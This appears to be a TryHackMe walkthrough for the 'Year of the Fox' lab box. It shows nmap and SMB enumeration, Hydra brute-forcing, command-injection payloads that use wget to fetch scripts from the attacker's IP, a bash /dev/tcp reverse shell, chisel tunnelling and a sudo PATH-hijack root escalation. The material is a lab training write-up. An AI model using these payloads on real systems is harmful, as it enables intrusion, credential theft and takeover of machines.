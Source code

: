 In this walkthrough, we'll go over a challenge (hard) level box called ***Year of the Fox*** on [TryHackMe](https://tryhackme.com/room/yotf) 

![Yof](yof.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.47.77 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Nmap scan report for 10.10.47.77
Host is up (0.27s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m38s, median: 0s
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2021-06-30T01:45:59+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-30T00:45:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 29 20:46:06 2021 -- 1 IP address (1 host up) scanned in 22.08 seconds
```
![YoF index](yof-http-basic-auth.png)

It looks like we are being asked to enter credentials. I also realize that SMB is also running on this server so let's enumerate SMB as well:
`enum4linux -a -o 10.10.242.71`
![YoF enum4linux1](yof-enum4linux1.png)
![YoF enum4linux2](yof-enum4linux2.png)

User | User Type
----- | ---------
fox | Local User
rascal | Local User

At this point, we can try to brute force the HTTP basic auth with Hydra `hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.242.71 http-get`:

![YoF HTTP Basicauth](yof-http-basicauth-bruteforce.png)

Username | Password
----------- | --------
rascal | jesussaves

We can login with the above credentials:
![YoF Authenticated Login](yof-authenticated-login.png)

However, there isn't much here and we can proxy the traffic via Burp after much enumeration, I use the below script to upload a test file:
`"\"; wget http://10.13.6.172:80/test.txt -O /tmp/t.txt; echo\""`
![YoF Command Injection](yof-command-injection-test.png)

This action is successful:

![YoF Python Server](yof-python-server.png)

Another comand injection script `\";echo d2hvYW1p | base64 -d | bash \n`:
![YoF Command Injection](yof-command-injection-whoami.png)

We can now create a file called "revshell.sh" and insert the below payload for getting a reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.6.172/5555 0>&1
```
Using the same method, we upload the file to "/tmp" directory `"\"; wget http://10.13.6.172:80/revshell.sh -O /tmp/revshell.sh; echo\""`

After that we start a listener with nc `nc -nlvp 5555`

We can then run the following command `"\"; bash /tmp/revshell.sh; echo\""`:
![YoF bash revshell](yof-bash-revshell.png)
![YoF initial foothold](yof-initial-foothold.png)

After running linpeas, I find a lot of rabbit holes, but one finding is interesting:
![YoF linpeas](yof-linpeas.png)

SSH is running locally so we can move chisel to the target machine and forward the port:
1. Edit proxychains.conf `socks 127.0.0.1 9999`:

	![YoF Proxchains Conf](yof-proxchains-conf.png)
2. Run the following on the local machine `./chisel_1.7.6_linux_amd64 server --socks5 -p 1111 --reverse`:
	![YoF Chisel Server](yof-chisel-server.png)
3. Run the following on target machine `./chisel_1.7.6_linux_amd64 client 10.13.6.172:1111 R:9999:127.0.0.1:22`:
	![YoF Chisel Client](yof-chisel-client.png)
  
We can then try to brute force the SSH service with Hydra `hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:9999 -v -f`:

![YoF Hydra](yof-hydra-ssh.png)

Username | Password
----------- | --------
fox | michelle1

We can now SSH into the server with above credentials `ssh -p 9999 fox@127.0.0.1`:

![YoF SSH](yof-ssh.png)

It looks like fox user could run "/usr/sbin/shutdown" as root without any passwords:
![YoF FOX Sudo](yof-fox-sudo-l.png)

We then transfer "/usr/sbin/shutdown" to my local Kali machine and inspected it with `strings shutdown`:

![YoF Strings](yof-strings-shutdown.png)

Next we copy "/bin/bash" to "/tmp"
`cp /bin/bash /tmp/bash`

We can now run the following command `sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown` to get a root shell:
![YoF Root Shell](yof-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
